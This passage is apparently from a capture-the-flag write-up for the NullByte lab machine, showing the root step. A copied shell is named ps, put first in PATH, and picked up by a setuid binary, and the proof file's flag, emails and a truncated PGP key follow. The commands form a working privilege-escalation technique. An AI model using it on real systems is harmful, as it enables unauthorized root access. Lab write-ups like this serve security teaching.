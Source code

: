 ![](/assets/images/nullbyte/screenshot-11.png)

## Privilege Escalation
### Path Hijacking

I created a copy of shell binary as the ps command into the tmp directory, gave it execute permissions, exported the $PATH environment variable and executed it, as we see I got root.

```console
ramses@NullByte:/var/www/backup$ cat /bin/sh > /tmp/ps
ramses@NullByte:/var/www/backup$ chmod 755 /tmp/ps 
ramses@NullByte:/var/www/backup$ export PATH=/tmp:$PATH
ramses@NullByte:/var/www/backup$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
ramses@NullByte:/var/www/backup$ ./procwatch 
# id
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
# whoami
root
```

```console
# cd /root
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
```
